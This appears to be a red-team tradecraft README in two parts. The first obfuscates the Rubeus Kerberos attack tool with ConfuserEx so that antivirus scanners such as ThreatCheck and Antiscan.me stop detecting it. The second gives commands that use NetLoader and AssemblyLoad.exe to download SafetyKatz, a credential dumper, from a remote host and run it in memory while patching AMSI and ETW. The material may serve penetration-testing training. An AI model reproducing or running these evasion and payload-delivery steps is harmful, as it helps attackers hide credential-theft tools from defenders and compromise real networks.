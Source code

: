 # Offensive .NET - TradeCraft - AV Bypass Obfuscation

1. Check with ThreatCheck
```powershell
C:\> Threatcheck.exe -f Rubeus.exe
```

<img src="./assets/threatcheck_1.png" />

2. Now we will use ConfuserEx (https://github.com/mkaring/ConfuserEx) to obfuscate the binary
Launch ConfuserEx
+ In Project tab select the Base Directory where the binary file is located.

<img src="./assets/Confuserx_2.png" />

+ In Project tab Select the Binary File that we want to obfuscate.
+ In Settings tab add the rules.
+ In Settings tab edit the rule and select the preset as `Normal`.

<img src="./assets/Confuserx_settings_3.png" />

+ In Protect tab click on the protect button.

<img src="./assets/Confuserx_protect_4.png" />

+ Analyzing using ThreatCheck

<img src="./assets/threatcheck_recheck_5.png" />


+ Rechecking on Antiscan.me

<img src="./assets/hash_6.png" />

+ Obfuscated Rubeus.exe

<img src="./assets/antiscan_old_7.png" />

+ Original Rubeus.exe

<img src="./assets/antiscan_new_8.png" />

---

# Offensive .NET - Tradecraft - Payload Delivery

+ We can use NetLoader (https://github.com/Flangvik/NetLoader) to deliver our binary payloads. 
+ It can be used to load binary from filepath or URL and patch AMSI & ETW while executing. 
```powershell
C:\Users\Public\Loader.exe -path http://10.10.10.10/SafetyKatz.exe 
```

+ We also have AssemblyLoad.exe that can be used to load the Netloader in-memory from a URL which then loads a binary from a filepath or URL. 
```powershell
C:\Users\Public\AssemblyLoad.exe http://10.10.10.10/Loader.exe -path http://10.10.10.10/SafetyKatz.exe
```

